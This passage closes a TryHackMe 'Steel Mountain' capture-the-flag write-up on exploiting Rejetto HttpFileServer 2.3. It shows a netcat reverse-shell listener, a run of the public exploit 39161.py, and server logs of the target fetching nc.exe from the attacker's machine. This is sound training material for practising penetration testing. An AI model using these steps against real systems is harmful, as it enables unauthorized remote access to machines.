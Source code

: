 Now open the script with a text editor and modify the line  
_ip_addr = "192.168.44.128" #local IP address_ with the IP of your attacking machine.

Start a listener

```bash
root@ip-10-10-95-132:~/workspace# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

Run the exploit script:

```bash
root@ip-10-10-95-132:~/workspace# python2 39161.py 10.10.28.113 8080
```

The first time you run it, it will upload the netcat executable on the target.  
You can check this looking at the output of the HTTP server:

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.113 - - [19/Sep/2024 15:54:23] "GET /nc.exe HTTP/1.1" 200 -
10.10.28.113 - - [19/Sep/2024 15:54:23] "GET /nc.exe HTTP/1.1" 200 -
10.10.28.113 - - [19/Sep/2024 15:54:23] "GET /nc.exe HTTP/1.1" 200 -
10.10.28.113 - - [19/Sep/2024 15:54:23] "GET /nc.exe HTTP/1.1" 200 -
```

Still no shell though at this point, we need to run the exploit again.  
To be honest this exploit appears to be buggy, it may require to run it several times for it to work.  
Once the exploit is successful, proceed with privilege escalation as described earlier.

## Conclusion

In this write-up, we covered the steps to exploit Rejetto's HttpFileServer 2.3, gain initial access, and achieve privilege escalation using both Metasploit and manual methods. The Steel Mountain room on TryHackMe offers a great opportunity to practice and refine your ethical hacking skills. Happy hacking!

